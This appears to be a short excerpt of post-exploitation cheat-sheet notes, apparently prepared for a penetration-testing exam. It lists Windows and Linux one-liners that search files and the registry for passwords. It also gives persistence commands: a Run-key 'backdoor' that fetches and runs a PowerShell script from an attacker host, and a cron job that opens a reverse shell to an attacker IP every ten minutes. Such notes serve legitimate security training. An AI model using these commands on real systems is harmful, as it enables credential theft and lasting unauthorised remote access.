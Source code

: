 ### Credential Hunting One-Liners
```cmd
REM Windows credential hunt
findstr /si password *.txt *.xml *.config *.ini & reg query HKLM /f password /t REG_SZ /s
```

```bash
# Linux credential hunt
grep -r "password\|pass\|pwd" /etc/ /var/ /opt/ 2>/dev/null | grep -v Binary
```

### Persistence One-Liners
```cmd
REM Windows registry persistence
reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v backdoor /d "powershell.exe -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')"
```

```bash
# Linux cron persistence
echo "*/10 * * * * /bin/bash -i >& /dev/tcp/attacker-ip/4444 0>&1" | crontab -
```

Remember: Post-exploitation is about maintaining access, gathering intelligence, and moving deeper into the network. Always document your pivots and access paths for the exam report!